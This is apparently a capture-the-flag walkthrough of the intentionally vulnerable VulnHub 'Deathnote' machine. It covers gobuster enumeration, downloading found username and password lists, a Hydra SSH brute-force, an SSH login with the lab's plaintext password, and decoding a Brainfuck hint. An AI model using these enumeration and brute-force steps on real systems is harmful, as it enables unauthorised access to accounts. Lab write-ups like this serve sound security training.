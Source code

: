 ```
 gobuster dir -u http://deathnote.vuln/wordpress/ -w /usr/share/wordlists/dirb/common.txt
```
Result:
![[Pasted image 20240709194721.png]]

As we see we got admin page but have no login credtionals.
Now again perform the  gobuster on deathnote vulnhub
```
gobuster dir -u http://deathnote.vuln  -w /usr/share/wordlists/dirb/common.txt
```
![[Pasted image 20240709195331.png]] 
Now we got a text file ==robots.txt==
search it on browser
```
http://192.168.0.5/robots.txt
```
![[Screenshot 2024-07-09 195124.png]] 
Now we got a image file. Download the file using the following command.
```
wget 192.168.0.5/important.jpg
```
But we can't open the file because the download file is actually a text file. so, we have to change the format into txt.
Now we got a hint.

![[Screenshot 2024-07-09 200032.png]] 

As we already saw a file user.txt in upload directory.so go and open the directory
we got some usernames.
As we see in the upload page we got another file in txt format called ==notes.txt==.so that may be the password file.
Now lets perform bruteforce attack by using the two files
First download the two files using wget command.
```
wget http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/user.txt
wget http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/notes.txt
```
For bruteforcing we will use Hydra
```
hydra -L user.txt -P notes.txt ssh://192.168.0.5 
```
And we found the login credentials.

![[Screenshot 2024-07-09 201613.png]] 
 To login
 ```
 ssh l@192.168.0.5 
```
Password: death4me
http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/

use command
```
ls 
```
 we found a text file, see the content of the file using cat command.
 ```
 cat user.txt
```
we found some encrypted code, i.e. ==Brainfuck encryption code== we can decode the code by using some online brainfuck decoders. link. https://www.dcode.fr/brainfuck-language
And we got a message.
 ==Output: i think u got the shell , but you wont be able to kill me -kira==
 